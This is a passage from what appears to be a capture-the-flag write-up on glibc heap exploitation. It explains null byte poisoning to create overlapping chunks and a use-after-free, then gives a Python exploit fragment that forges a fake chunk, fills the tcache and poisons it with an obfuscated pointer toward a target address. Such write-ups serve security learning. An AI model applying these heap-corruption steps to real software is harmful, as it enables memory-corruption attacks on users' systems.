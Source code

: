 So, when we later **free the next (adjacent) chunk**, the heap checks the `prev_inuse` bit, sees it as `0`, and **attempts to coalesce** it with the "previous" chunk — which we never actually freed. As a result, the allocator merges them into one large chunk.

Now, if we free the **real middle chunk**, and then allocate a new chunk that fits the entire merged region, it will overlap with the recently free middle chunk. **Hence, Providing `UAF` on it.**


**Note:** The explanation above provides a **high-level overview** of the **Null Byte Poisoning** technique. When crafting a full exploit, you'll need to carefully account for all the **heap integrity checks** performed during `free()`, as well as perform some strategic [**heap feng shui**](https://en.wikipedia.org/wiki/Heap_feng_shui) to align your chunks just right and achieve the desired overlap.

*For a deeper understanding of the exploit’s implementation, **Shellphish** and others have provided excellent POC and write-ups  — check them out in the **Resources** section at the end!*

```python
target = obfuscate(heap_base+0x100,heap_base)
create(8,0x38)  #### a
offset = 0xca0
address = heap_base + offset
write_into(8,pack(0)+pack(0x60)+pack(address)+pack(address))

create(9,0x28) #### b
create(10,0xf8) #### c
create(11,24)  ################## seperate from top_chunk

write_into(9,b'\x00'*(0x28-8)+pack(0x60))

for i in range(7,0,-1):
    free(i)
    
free(10) 

create(12,0xd8)
create(13,0x28)
free(13)
free(9)

write_into(12,pack(0)*5+pack(0x31)+pack(target)[:7])

create(13,0x28)
```

---

## Getting ELF Leak

*The caffeine from my coffee had long worn off, and frustration started to kick in as I kept hitting a wall trying to figure out how to get the `ELF leak`. So, I called it a night and went to bed.*

*But my subconcious brain wasn’t done yet.*

<img src="/d1ff/images_limit/sleepingbrain.png" width="300" style="display: block; margin: auto;"  />
